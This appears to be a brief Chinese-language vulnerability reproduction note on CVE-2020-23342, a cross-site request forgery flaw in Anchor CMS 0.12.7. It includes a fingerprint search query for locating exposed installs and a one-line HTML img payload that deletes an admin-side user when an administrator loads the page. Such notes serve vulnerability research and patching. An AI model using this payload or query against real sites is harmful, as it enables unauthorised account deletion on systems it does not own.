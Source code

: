 # 

# Anchor CMS 0.12.7 跨站请求伪造 CVE-2020-23342

## 漏洞描述

- https://packetstormsecurity.com/files/161048/anchorcms0127-xsrf.txt

## 网络测绘

```
"Anchor CMS" && body="themes/default/img/favicon.png"
```

## 漏洞复现

Anchor CMS使用Get方法进行敏感操作，可以使用exploit.html进行删除用户等操作。

**exploit.html：**

```html
<img src="http://target/anchor/index.php/admin/users/delete/21">
```

当管理员点击时删除ID为21的用户。
